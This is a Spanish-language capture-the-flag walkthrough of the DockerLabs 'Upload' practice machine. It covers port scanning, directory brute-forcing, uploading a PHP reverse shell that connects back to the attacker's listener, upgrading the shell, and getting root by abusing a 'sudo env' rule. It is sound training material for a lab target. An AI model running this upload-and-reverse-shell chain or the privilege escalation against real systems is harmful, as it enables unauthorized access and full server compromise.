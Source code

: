 ## WRITEUP DE LA MAQUINA UPLOAD DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterísiticas muestran.
```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 11:11 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```
Observamos que el puerto 80 del servicio http esta abierto, por ello al ser el unico puerto abierto por lógica intentaremos escalar por ahí. En cualquier buscador ponemos la dirección ip, en este caso 172.17.0.2, nos muestra una pagina web donde se puede subir archivos:
<br><br>
![pagina web upload](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/8206ef47-d953-4249-8299-602b767cd7ec)
<br><br><br>
Aqui se dispersa la cosa, ya que vamos a tirar por acceder a la máquina víctima subiendo un archivo php que contenga una reverse shell, para ello hay muchas formas, todas se parecen en ciertas cosas, pero en este caso la voy a hacer de una manera muy sencilla.
<br>
Pero antes de comenzar con la reverse shell, hay que averiguar donde se encuentra y como se llama el directorio donde se alamecenan los archivos que subamos.
<br>
Para ello vamos a hacer un ataque de fuerza con la herramienta gobuster. 
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
Progress: 45155 / 441122 (10.24%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 48897 / 441122 (11.08%)
===============================================================
Finished
===============================================================
```
Observamos que nos saca un directorio que destaca, ya que encima muestra un enlace, hablamos del directorio "172.17.0.2/uploads/". Una vez llegados aqui volvemos al tema de la reverse shell, ahora si.
Vamos a la pagina https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php y descargamos el archivo php, lo abrimos en la terminal con alguna herramientas de edicion de texto como nano. Hay dos lineas donde pone "CHANGE THIS" ahi deberias poner la ip de vuestra máquina anfitriona y el puerto:
<br><br>
![Foto del codigo de reverse shell](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/93e2497c-8348-4a03-8ff0-9c37807ef8bb)
<br><br>
Subimos este archivo a la pagina víctima. <br>Para estar seguros de que se ha subido, con esta url  "172.17.0.2/uploads/" veremos que se encuentra el archivo almacenado:
<br><br>
![direcotrio por fuzzing](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/5c766129-42b5-4bc2-a2b3-48d6d08996ad)
<br><br>
Antes de ejecutar la reverse shell, tenemos que ejecutar la herramienta netcat para ponernos en escucha, siempre hay que poner obviamente el mismo puerto que hemos puesto anteriormente en el archivo php que hemos editado:

```shell
└─$ nc -lvnp 4444                       
listening on [any] 4444 ...
```
"nc" es la abreviatura de netcat, una herramienta de red que se puede usar para leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP.
<br>
-l: Espere conexiones entrantes en lugar de intentar conectarse a otro sistema.
<br>
-v: Muestre información detallada sobre lo que está sucediendo.
<br>
-n: No realice la resolución de nombres de host, solo use direcciones IP.
<br>
-p 4444: Escuche en el puerto 4444
<br><br>
Una vez estamos en escucha, en la url escribimos el nombre del archivo "172.17.0.2/uploads/php-reverse-shell.php", la pagina deberia quedarse en blanco cargando:

```shell
connect to [10.0.2.15] from (UNKNOWN) [172.17.0.2] 41216
Linux 4419c3b05405 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 17:55:13 up  6:18,  0 users,  load average: 0.34, 0.41, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Ya somos el usuario "www-data", la idea es llegar a ser root pero antes de esto, debemos hacer el llamado "tratamiento de terminal", se refiere a mejorar la funcionalidad y usabilidad de la shell que has obtenido. Ya que cuando te conectas a una máquina víctima a través de una reverse shell, es común que la sesión no se comporte como una terminal interactiva completa. Esto puede limitar tu capacidad para usar ciertos comandos.
<br><br>
Tratamiento de terminal paso a paso:
<br><br>
1 - "script /dev/null -c bash" - El comando script inicia una sesión de terminal grabada en el archivo especificado (/dev/null en este caso, que descarta la salida). La opción -c bash ejecuta bash dentro de esta sesión.

```shell
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@4419c3b05405:/$ 
```
2 - "Control + z" - Suspende temporalmente la sesión de la shell actual y devuelve el control al shell principal, para poner la sesion en segundo plano.
<br><br>
3 - "stty raw -echo; fg" - Configura la terminal para que pase las entradas crudas (raw) y desactiva el eco (-echo), lo que significa que los caracteres que escribes no se mostrarán. Esto mejora la interacividad de la shell.

```shell
└─$ stty raw -echo; fg

[1]  + continued  nc -lvnp 4444
```
4 - "reset xterm" - Debido al paso anterior parece que la terminal se ha rayado, pero no, hay que ejecutar "reset xterm" aunque el cursor este en medio de la terminal.Este comando  restablece la terminal a sus valores predeterminados, conseguimos limpiar y reconfigura la terminal para que funcione correctamente.
<br><br>
5 - "export TERM=xterm" - Establece la variable de entorno TERM a xterm, lo que informa a los programas terminales sobre el tipo de terminal que estás usando. Conseguimos que la terminal interprete correctamente los comandos y el formato de salida.

```shell
www-data@4419c3b05405:/$ export TERM=xterm
```
6 - "export SHELL=bash" - Establece la variable de entorno SHELL a bash, lo que informa al sistema que estás utilizando bash como shell. Puede ayudar a algunos programas y scripts a comportarse correctamente, asumiendo que bash es tu shell.

```shell
www-data@4419c3b05405:/$ export SHELL=bash
```
Una vez hemos completado el "tratamiento de terminal" toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).
<br>

```shell
www-data@4419c3b05405:/$ sudo -l
Matching Defaults entries for www-data on 4419c3b05405:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 4419c3b05405:
    (root) NOPASSWD: /usr/bin/env
```
Esta linea es la que nos interesa "(root) NOPASSWD: /usr/bin/env": significa que el usuario puede ejecutar el comando /usr/bin/env con privilegios de superusuario (root) sin necesidad de proporcionar una contraseña.
<br>
Para escalar privilegios nos aprovecharemos de "/usr/bin/env" para ser root, para ello nos metemos en la pagina https://gtfobins.github.io/#env y en la opcion de "env" pinchamos en el recuadro de "Sudo", copiamos el comando que nos aparece "sudo env /bin/sh" y ejecutamos.

```shell
www-data@4419c3b05405:/$ sudo env /bin/sh
# whoami
root
# 
```
Ya esta, estamos dentro, somos root, muchas gracias.
